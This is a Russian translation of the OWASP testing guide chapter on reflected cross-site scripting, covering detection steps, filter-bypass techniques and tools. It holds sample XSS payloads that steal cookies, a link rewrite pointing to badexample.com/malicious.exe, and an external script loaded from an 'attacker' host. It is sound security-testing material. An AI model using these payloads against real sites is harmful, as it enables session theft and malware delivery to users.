

---

layout: col-document
title: WSTG - Latest
tags: WSTG

---


# Тестирование отражённых межсайтовых скриптов (Reflected XSS)

|ID          |
|------------|
|WSTG-INPV-01|

## Обзор

Отражённые [межсайтовые скрипты (XSS)](https://owasp.org/www-community/attacks/xss/) проявляются, когда злоумышленник вводит исполняемый код браузера в единственный HTTP-ответ. Атака инъекции не сохраняется в самом приложении; она не является постоянной и воздействует только на пользователей, которые открывают специально созданную ссылку или стороннюю web-страницу. Строка атаки включается в состав вредоносного URI или HTTP-параметра, некорректно обрабатывается приложением и возвращается (т.е. отражается) жертве.

Отражённые XSS-атаки являются наиболее часто встречающимся типом XSS-атак. Они также известны как непостоянные, и, поскольку полезная нагрузка атаки доставляется и выполняется в рамках одного запроса и ответа, их также называют XSS первого порядка (или I типа).

Если web-приложение уязвимо для такого типа атак, оно будет возвращать в ответах клиенту непроверенные входные данные, отправленные через запросы. Типичный жизненный цикл атаки включает этап разработки, на котором злоумышленник создает и тестирует вредоносный URI; этап социальной инженерии, на котором он убеждает своих жертв перейти по этому URI; и в конечном итоге выполнение созданного кода в браузере жертвы.

Как правило, код злоумышленника написан на JavaScript, но также используются и другие скриптовые языки, например ActionScript или VBScript. Злоумышленники обычно используют эти уязвимости для установки кейлоггеров, кражи cookie или буфера обмена жертвы, а также модификации контента страницы (например, ссылок на скачивание).

Одной из основных трудностей в предотвращении уязвимостей XSS является правильная кодировка символов. В некоторых случаях web-сервер или приложение не могут отфильтровать некоторые кодировки, поэтому, например, web-приложение может отфильтровать `<script>`, но не `%3cscript%3e`, который просто отображён в другой кодировке.

## Задачи тестирования

- Определить переменные, которые отражаются в ответах.
- Оценить входные данные, которые им присваиваются, и кодировку применяемую в ответе (если указана).

## Как тестировать

### Тестирование методом чёрного ящика

Тест будет включать, по крайней мере, три этапа:

#### Обнаружение входных векторов

Для каждой web-страницы тестировщик должен определить все пользовательские переменные web-приложения и способы их ввода. Они включают в себя скрытые или неочевидные входные данные, такие как параметры HTTP, данные POST, скрытые значения полей формы и предустановленные значения переключателей или списков выбора. Обычно для просмотра этих скрытых параметров используются встроенные в браузер HTML-редакторы или web-прокси. См. пример ниже.

#### Анализ входных векторов

Проанализируйте каждый входной вектор, чтобы обнаружить потенциальные уязвимости XSS. Обычно используются специально созданные входные данные для каждого входного вектора. Такие входные данные обычно безвредны сами по себе, но они вызывают ответы web-браузера, через которые проявляется уязвимость. Данные тестирования можно генерировать с помощью фаззера web-приложений ([пример](https://www.zaproxy.org/docs/desktop/addons/fuzzer/)), автоматизировав загрузку предопределённого списка известных строк атаки, или вручную.
  Примерами таких входных данных являются:

- `<script>alert(123)</script>`
- `"><script>alert(document.cookie)</script>`

Обширный список потенциальных тестовых строк см. в [Памятке по уклонению от фильтра XSS](https://owasp.org/www-community/xss-filter-evasion-cheatsheet).

#### Анализ воздействия

Для каждого тестового ввода, предпринятого на предыдущем этапе, необходимо проанализировать результат и определять, представляет ли он собой уязвимость, которая оказывает реальное влияние на безопасность web-приложения. Это требует изучения результирующего HTML-кода страницы и поиска тестового ввода. После его обнаружения необходимо выявить все специальные символы, которые не были должным образом закодированы, заменены или отфильтрованы. Состав этих символов будет зависеть от контекста HTML.

В идеале все специальные символы HTML будут заменены HTML-сущностями. Основные HTML-сущности, которые необходимо найти:

- `>` (больше)
- `<` (меньше)
- `&` (амперсанд)
- `'` (апостроф или одинарная кавычка)
- `"` (двойные кавычки)

Полный перечень сущностей определяется спецификациями HTML и XML. См. в [Википедии](https://ru.wikipedia.org/wiki/%D0%9C%D0%BD%D0%B5%D0%BC%D0%BE%D0%BD%D0%B8%D0%BA%D0%B8_%D0%B2_HTML).

В контексте действия HTML или кода JavaScript ещё один набор специальных символов должен быть экранирован, закодирован, заменен или отфильтрован. Эти символы включают в себя:

- `\n` (перевод строки)
- `\r` (возврат каретки)
- `'` (апостроф или одинарная кавычка)
- `"` (двойные кавычки)
- `\` (обратная косая черта)
- `\uXXXX` (символы в кодировке Unicode)

Более полную справку см. в [Руководстве по JavaScript от Mozilla](https://developer.mozilla.org/ru/docs/Web/JavaScript/Guide/Grammar_and_types#%D0%B8%D1%81%D0%BF%D0%BE%D0%BB%D1%8C%D0%B7%D0%BE%D0%B2%D0%B0%D0%BD%D0%B8%D0%B5_%D1%81%D0%BF%D0%B5%D1%86%D0%B8%D0%B0%D0%BB%D1%8C%D0%BD%D1%8B%D1%85_%D1%81%D0%B8%D0%BC%D0%B2%D0%BE%D0%BB%D0%BE%D0%B2_%D0%B2_%D1%81%D1%82%D1%80%D0%BE%D0%BA%D0%B0%D1%85).

#### Пример №1

Например, рассмотрим сайт, на котором есть приветствие `Welcome %username%` и ссылка для скачивания.

\
*Рисунок 4.7.1-1: Пример XSS №1*

Тестировщик должен подозревать, что каждая точка ввода данных может привести к XSS-атаке. Чтобы проанализировать это, необходимо поиграть с пользовательской переменной и попытаться вызвать уязвимость.

Давайте попробуем перейти по данной ссылке и посмотрим, что получится:

```text
http://example.com/index.php?user=<script>alert(123)</script>
```

Если не применяется нейтрализация, это приведёт к следующему всплывающему окну:

\
*Рисунок 4.7.1-2: Пример XSS №1*

Это указывает на наличие уязвимости XSS, и, похоже, что если перейти по этой ссылке, можно выполнить произвольный код в любом браузере.

#### Пример №2

Давайте попробуем другой фрагмент кода (т.е. ссылку):

```text
http://example.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName("a");AllLinks[0].href = "http://badexample.com/malicious.exe";}</script>
```

Это приводит к следующему поведению:

\
*Рисунок 4.7.1-3: Пример XSS №2*

Пользователь, перейдя по предоставленной тестировщиком ссылке, загрузит файл `malicious.exe` с контролируемого им сайта `http://badexample.com/`.

### Обход фильтров XSS

Атаки с использованием отражённых межсайтовых скриптов предотвращаются, поскольку вредоносный ввод нейтрализовывает web-приложение, блокирует WAF или механизмы, встроенные в современные браузеры. Тестировщик должен проверить наличие уязвимостей, предполагая, что браузеры не предотвратят атаку. Браузеры могут быть устаревшими или в них отключены встроенные функции безопасности. Точно так же нет гарантии, что WAF распознают новые неизвестные атаки.

Таким образом, основная нагрузка по предотвращению XSS лежит на нейтрализации web-приложением недоверенного пользовательского ввода. Разработчикам доступно несколько механизмов нейтрализации, таких как возврат ошибки, удаление, кодирование или замена недопустимых входных данных. Средства, с помощью которых приложение обнаруживает и исправляет неверный ввод, являются одним из основных недостатков при предотвращении XSS. Список запретов может не включать все возможные строки атаки, список разрешений может быть недостаточно строгим, нейтрализация может завершиться неудачей, или какой-либо тип входных данных может оказаться ошибочно доверенным и пройти без нейтрализации. Всё это позволяет злоумышленникам обходить фильтры XSS.

В [Памятке по уклонению от фильтров XSS](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) приведены распространённые тесты на обход фильтров.

#### Пример №3: значение атрибута тега

Поскольку эти фильтры основаны на списке запретов, они не могут блокировать все типы выражений. На самом деле, есть случаи, когда XSS эксплуатируется без тегов `<script>` и даже без таких символов, как `<` и `>`, которые обычно фильтруются.

Например, web-приложение может присваивать атрибуту введённое пользователем значение, как показано в следующем коде:

```html
<input type="text" name="state" value="ВВОД_ОТ_ПОЛЬЗОВАТЕЛЯ">
```

Тогда злоумышленник может отправить следующий код:

```text
" onfocus="alert(document.cookie)
```

#### Пример №4: другой синтаксис или кодировка

В некоторых случаях фильтры на основе сигнатур можно обойти, просто обфусцируя атаку. Обычно это можно сделать, добавляя неожиданные изменения в синтаксис или кодировку. Браузеры воспринимают эти варианты как допустимый HTML, также они могут быть приняты фильтром.

Вот несколько примеров:

- `"><script >alert(document.cookie)</script >`
- `"><ScRiPt>alert(document.cookie)</ScRiPt>`
- `"%3cscript%3ealert(document.cookie)%3c/script%3e`

#### Пример №5: обход нерекурсивной фильтрации

Иногда нейтрализация применяется однократно, но без рекурсии. В этом случае злоумышленник может обойти фильтр, отправив строку, содержащую несколько попыток, например, так:

```text
<scr<script>ipt>alert(document.cookie)</script>
```

#### Пример №6: включение внешнего скрипта

Теперь предположим, что разработчики целевого сайта реализовали следующий код для защиты ввода от включения внешнего скрипта:

```php
<?
    $re = "/<script[^>]+src/i";

    if (preg_match($re, $_GET['var']))
    {
        echo "Filtered";
        return;
    }
    echo "Welcome ".$_GET['var']." !";
?>
```

Раскрывая приведённое выше регулярное выражение, получаем следующие проверки:

1. на наличие `<script`
2. на наличие " " (пробела)
3. на наличие одного или нескольких вхождений любого символа, кроме `>`
4. на наличие `src`.

Код будет полезным для фильтрации выражений типа `<script src="http://attacker/xss.js"></script>`, которые являются распространённой атакой. Но в этом случае можно обойти нейтрализацию, используя символ `>` в атрибуте между script и src, например:

```text
http://example/?var=<SCRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>
```

Это позволит эксплуатировать отражённую уязвимость межсайтового скриптинга, показанную ранее, выполняя код JavaScript, хранящийся на web-сервере злоумышленника, как если бы он исходил с web-сайта жертвы, `http://example/`.

#### Пример №7: загрязнение параметров HTTP (англ.: HTTP Parameter Pollution, HPP)

Другим методом обхода фильтров является загрязнение параметров HTTP, этот метод был впервые представлен Stefano di Paola и Luca Carettoni в 2009 г. на конференции OWASP в Польше. Дополнительные сведения см. в разделе [Тестирование загрязнения параметров HTTP](04-Testing_for_HTTP_Parameter_Pollution.md). Этот метод обхода заключается в разделении вектора атаки между несколькими параметрами, имеющими одно и то же имя. Манипулирование значением каждого параметра зависит от того, как конкретная web-технология анализирует эти параметры, поэтому такой тип обхода не всегда возможен. Если тестируемая среда объединяет значения всех параметров с одним и тем же именем, то злоумышленник может использовать этот метод для обхода механизмов защиты на основе сигнатур.
Обычная атака:

```text
http://example/page.php?param=<script>[...]</script>
```

Атака с HPP:

```text
http://example/page.php?param=<script&param=>[...]</&param=script>
```

Более подробный перечень методов обхода фильтров см. в [Памятке по обходу фильтров XSS](https://owasp.org/www-community/xss-filter-evasion-cheatsheet). Анализ ответов может быть затруднительным. Простой способ его провести — использовать код, который вызывает всплывающее диалоговое окно, как в нашем примере. Обычно это указывает на то, что злоумышленник может выполнить произвольный код JavaScript в браузерах посетителей.

### Тестирование методом серого ящика

Тестирование методом серого ящика похоже на метод чёрного. В этом случае пентестер частично знает приложение, ему может быть известна информация о пользовательском вводе, мерах по контролю входных данных и о том, как введённое отображается пользователю.

При наличии исходного кода (тестирование методом белого ящика) необходимо проанализировать все переменные, полученные от пользователей. Кроме того, надо проанализировать все реализованные процедуры нейтрализации, чтобы решить, можно ли их обойти.

## Инструменты

- [PHP Charset Encoder(PCE)](https://cybersecurity.wtf/encoding/) помогает кодировать в/из разных наборов символов произвольные тексты, которые можно использовать в настраиваемых полезных нагрузках.
- [Hackvertor](https://hackvertor.co.uk/public) — онлайн-инструмент, который позволяет использовать множество типов кодирования и обфускации JavaScript (или любого строкового ввода).
- [XSS-Proxy](http://xss-proxy.sourceforge.net/) — инструмент для атак с использованием межсайтовых скриптов.
- [ratproxy](https://code.google.com/archive/p/ratproxy/) — полуавтоматический, в основном пассивный инструмент аудита безопасности web-приложений, оптимизированный для точного и чувствительного обнаружения и автоматического аннотирования потенциальных проблем и шаблонов проектирования, связанных с безопасностью, на основе наблюдения за существующим трафиком, инициируемым пользователями в web 2.0 окружении.
- [Burp Proxy](https://portswigger.net/burp/) представляет собой интерактивный HTTP/S прокси-сервер для атак и тестирования web-приложений.
- [OWASP Zed Attack Proxy (ZAP)](https://www.zaproxy.org) представляет собой интерактивный HTTP/S прокси-сервер для атаки и тестирования web-приложений со встроенным сканером.

## Ссылки

### Ресурсы OWASP

- [Памятка по обходу фильтров XSS](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)

### Книги

- Joel Scambray, Mike Shema, Caleb Sima - "Hacking Exposed Web Applications", Second Edition, McGraw-Hill, 2006 - ISBN 0-07-226229-0
- Dafydd Stuttard, Marcus Pinto - "The Web Application's Handbook - Discovering and Exploiting Security Flaws", 2008, Wiley, ISBN 978-0-470-17077-9
- Jeremiah Grossman, Robert "RSnake" Hansen, Petko "pdp" D. Petkov, Anton Rager, Seth Fogie - "Cross Site Scripting Attacks: XSS Exploits and Defense", 2007, Syngress, ISBN-10: 1-59749-154-3

### Технические руководства

- [CERT - Malicious HTML Tags Embedded in Client Web Requests](https://resources.sei.cmu.edu/asset_files/WhitePaper/2000_019_001_496188.pdf)
- [cgisecurity.com - The Cross Site Scripting FAQ](https://www.cgisecurity.com/xss-faq.html)
- [G.Ollmann - HTML Code Injection and Cross-site scripting](http://www.technicalinfo.net/papers/CSS.html)
- [S. Frei, T. Dübendorfer, G. Ollmann, M. May - Understanding the Web browser threat](https://techzoom.net/papers/insecurity-iceberg)
